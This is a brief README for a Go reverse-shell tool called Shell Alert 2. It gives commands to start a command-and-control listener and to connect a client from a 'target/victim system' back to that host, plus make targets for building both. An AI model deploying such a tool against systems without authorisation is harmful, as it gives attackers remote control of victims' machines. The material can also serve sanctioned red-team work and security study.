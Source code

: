 # Shell Alert 2

Simple reverse shell client and server written in go.

Based of the work done by [adedayo](https://github.com/adedayo/reverse-shell).

## Usage

Start command and control server (`barracks`)

```bash
barracks 1337
```

Now connect from the target/victim system using the client (`conscript`), specifying the hostname/ip of the barracks, and port that the barracks is listening on (1337 in our example)
```bash
conscript <ip/hostname of barracks> <port of barracks>
```

## Build

Build C&C servers to `./bin/buildings` 

```
make buildings
```

Build clients to `./bin/units` 

```
make units
```

Build everything

```
make all
```

